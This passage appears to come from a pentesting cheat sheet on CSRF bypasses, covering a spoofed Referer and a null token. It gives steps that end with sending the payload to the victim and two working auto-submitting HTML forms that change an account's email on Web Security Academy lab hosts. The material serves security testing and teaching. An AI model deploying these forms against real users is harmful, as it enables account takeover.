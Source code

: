 ### Bypass Method - 6 : Try [attacker.com](http://attacker.com) or similar payload in referer header. (Validation of Referer can be circumvented)

```markdown
Test case: CSRF with broken Referer validation

1. Intercept the request and try changing referer to some other domain. (Check all cases how it is been verified)
2. Now Generate a normal POC and include any JavaScript in the script block to alter the URL and Referer
3. Done Send it to victim.

Example CSRF POC:

<!DOCTYPE html>
<html>
  <!-- CSRF PoC - generated by Burp Suite i0 SecLab plugin -->
<body>
	<form method="POST" action="https://ac761f621f79d75680e4054c00160033.web-security-academy.net:443/my-account/change-email">
		<input type="text" name="session" value="rk13v2KYDFByO0OFL0xnHcnIVZbvAHNg">
		<input type="text" name="email" value="gg@gg.com">
		<input type="submit" value="Send">
	</form>
<script>
			history.pushState("", "", "/?ac761f621f79d75680e4054c00160033.web-security-academy.net")
      document.forms[0].submit();
    </script>
</body>
</html>

```

### Bypass Method - 7: Send `null` value in csrf token.

```markdown
Test Case: Validation of CSRF token depends on token value being

1. Interect with functionality and intercept the request.
2. Send this requets to repeater.
3. Add null csrf param and generate csrf poc
4. Edit according to your preference,For example:

<!DOCTYPE html>
<html>
  <!-- CSRF PoC - generated by Burp Suite i0 SecLab plugin -->
<body>
	<form method="POST" action="https://ac8a1fbd1e6d76ae806817f900d50032.web-security-academy.net:443/email/change-email">
		<input type="text" name="email" value="natsu@natsu.com">
	</form>
<script>
      document.forms[0].submit();
    </script>
</body>
</html>

5. Done send this to victim.
```
